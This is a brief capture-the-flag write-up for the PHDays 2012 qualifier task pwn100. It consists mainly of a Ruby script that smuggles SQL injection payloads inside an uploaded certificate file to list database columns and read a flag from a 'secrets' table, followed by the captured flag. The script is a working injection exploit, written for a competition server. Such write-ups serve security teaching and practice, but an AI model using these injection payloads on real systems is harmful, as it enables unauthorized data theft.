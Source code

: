 ```yaml
---
title: PHDays2012 quals - pwn100 writeup
author: zed
categories:
- writeup
---
```


simple SQL injection

~~~
#!ruby

def upload
  # XXX: get session id from your browser cookies!
  # (or tcpdump :)
  session="dZnITNS/joMp0wM77YcdgGkTNLc=?user_id=TDcxOUwKLg=="
  cmd = 'curl -s -F "key=@ca.tmp;type=application/x-x509-ca-cert" http://ctf.phdays.com:3185/'
  cmd << %Q| -b "session=#{session}"'|
  `#{cmd}`.strip
end

# self generated certificate, required for task
PEM = File.read("ca.crt")

def attack payload
  File.open("ca.tmp","wb") do |f|
    f << PEM
    f << payload
  end
  r = upload
  puts r
end

## to insert my own certificate into admin's:
#pem = PEM.gsub("\n","\\n")
#attack "'),(1,'#{pem}'); /* '"

#attack "'),(719,(SELECT group_concat(column_name) FROM INFORMATION_SCHEMA.columns where                     table_name='secrets')); /* '"

attack "'),(719,(SELECT flag from secrets)); /* '"
~~~

flag: 4478b5f760f9c8ef14d6892b82eebd57

#### related links

 * [Zed's PHDays 2012 files & exploits](https://github.com/zed-0xff/ctf/tree/master/2012.phdays-quals)
